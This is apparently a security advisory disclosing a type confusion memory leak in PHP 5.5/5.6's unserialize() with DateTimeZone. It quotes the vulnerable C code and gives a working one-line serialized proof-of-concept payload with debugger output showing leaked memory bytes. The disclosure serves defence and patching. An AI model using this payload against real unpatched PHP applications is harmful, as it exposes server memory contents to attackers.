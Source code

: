 ### Type Confusion Infoleak Vulnerability in unserialize() with DateTimeZone (Unfix Still)
 
Taoguang Chen <[@chtg](http://github.com/chtg)> - Write Date: 2015.1.29 - Release Date: 2015.2.20
 
> A Type Confusion Vulnerability was discovered in unserialize() with DateTimeZone object's __wakeup() magic method that can be abused for leaking arbitrary memory blocks.

Affected Versions
------------
Affected is PHP 5.6.x 
Affected is PHP 5.5.x

Credits
------------
This vulnerability was disclosed by Taoguang Chen.

Description
------------

``` c
static int php_date_timezone_initialize_from_hash(zval **return_value, php_timezone_obj **tzobj, HashTable *myht TSRMLS_DC)
{
	zval            **z_timezone = NULL;
	zval            **z_timezone_type = NULL;
 
	if (zend_hash_find(myht, "timezone_type", 14, (void**) &z_timezone_type) == SUCCESS) {
		if (zend_hash_find(myht, "timezone", 9, (void**) &z_timezone) == SUCCESS) {
			convert_to_long(*z_timezone_type);
			if (SUCCESS == timezone_initialize(*tzobj, Z_STRVAL_PP(z_timezone) TSRMLS_CC)) {
				return SUCCESS;
			}
		}
	}
	return FAILURE;
}
...
static int timezone_initialize(php_timezone_obj *tzobj, /*const*/ char *tz) /* {{{ */
{
	timelib_time *dummy_t = ecalloc(1, sizeof(timelib_time));
	int           dst, not_found;
	char         *orig_tz = tz;

	dummy_t->z = timelib_parse_zone(&tz, &dst, dummy_t, &not_found, DATE_TIMEZONEDB, php_date_parse_tzfile_wrapper);
	if (not_found) {
		php_error_docref(NULL, E_WARNING, "Unknown or bad timezone (%s)", orig_tz);
```
 
The Z_STRVAL_PP macro lead to looking up an arbitrary valid memory address, and outputing a string via an warning level error message that start from this memory address.
 
Proof of Concept Exploit
------------
The PoC works on standard MacOSX 10.10.2 installation of PHP 5.5.14.

``` php
<?php

$data = unserialize('O:12:"DateTimeZone":2:{s:13:"timezone_type";i:1;s:8:"timezone";i:4298494896;}');

?>
```

Test the PoC on the command line, then show warning level error message:

``` php
$ lldb php
(lldb) target create "php"
Current executable set to 'php' (x86_64).
(lldb) run test/test.php
Process 889 launched: '/usr/bin/php' (x86_64)

Warning: DateTimeZone::__wakeup(): Unknown or bad timezone (UH??AWAVAUATSH??8) in /test/test.php on line 3
Process 889 exited with status = 0 (0x00000000)
```
